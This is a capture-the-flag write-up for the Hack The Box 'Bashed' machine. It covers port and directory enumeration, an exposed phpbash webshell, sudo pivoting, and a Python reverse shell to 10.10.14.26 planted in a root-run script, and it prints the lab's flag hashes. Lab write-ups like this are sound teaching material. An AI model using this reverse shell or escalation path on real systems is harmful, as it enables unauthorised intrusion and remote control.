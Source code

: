
# 🧪 Machine Name: `Bashed`

**Platform:** Hack The Box  
**IP Address:** `10.10.10.68`  
**Difficulty:** Easy Linux  

---

## 🧭 Overview

Bashed is a fairly easy machine focused on web fuzzing and identifying exposed files and services. The box is a great example of privilege escalation via exposed scripts and improper sudo permissions. Enumeration is key, as initial foothold is obtained through an exposed phpbash webshell.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- 10.10.10.68 --min-rate 10000
```

```bash
nmap -p 80 10.10.10.68 -sCV -oN nmapscan
```

- Only port **80** open → Apache 2.4.18  
- Site title: *Arrexel's Development Site*

---

## 🕵️ Web Enumeration

- Browsing `http://bashed.htb` → exposed **phpbash** script in development.
- Discovered via manual browsing and **dirsearch**:

```bash
dirsearch -u http://bashed.htb
```

- Interesting dirs: `/dev/` → **phpbash.php** shell

Also verified with **gobuster**:

```bash
gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

- `/dev/phpbash.php` → initial webshell as **www-data**.

---

## 🎯 Foothold

- Accessed `/dev/phpbash.php` and spawned interactive shell:

```bash
whoami
# www-data
```

- Browsed `/home` → found users:

```
/home/arrexel
/home/scriptmanager
```

- Grabbed user flag:

```bash
cat /home/arrexel/user.txt
af827e749b08685a006408eaf072b8f3
```

---

## 🚀 Privilege Escalation

- Checked **sudo -l** as www-data:

```bash
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

- Switched to **scriptmanager**:

```bash
sudo -u scriptmanager /bin/bash
```

- Located writable script `/scripts/test.py` → observed that it runs as **root**.

### Reverse shell for root:

Replaced `test.py` with reverse shell:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.26",80))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Started listener:

```bash
nc -nlvp 80
```

Gained **root** shell:

```bash
whoami
# root

cat /root/root.txt
249277f71cf2bb8e0ec15a570c8fdfdf
```

---

## 🧠 Lessons Learned

- Simple **web fuzzing** can reveal powerful footholds (phpbash).
- Always check **sudo permissions** — in this case, www-data → scriptmanager was key.
- Privileged scripts with poor controls can be abused for **easy root escalation**.

---

*Writeup by inksec*  
GitHub: [https://github.com/inkedqt](https://github.com/inkedqt)

---

### Featured Writeups Snippet

```markdown
- 🧪 [HTB: Bashed](https://github.com/inkedqt/ctf-writeups/tree/main/HTB/Retired/bashed)  
  Web fuzzing → PHPbash webshell → User enumeration → Sudo to scriptmanager → Privileged script abuse → Reverse shell as root
```

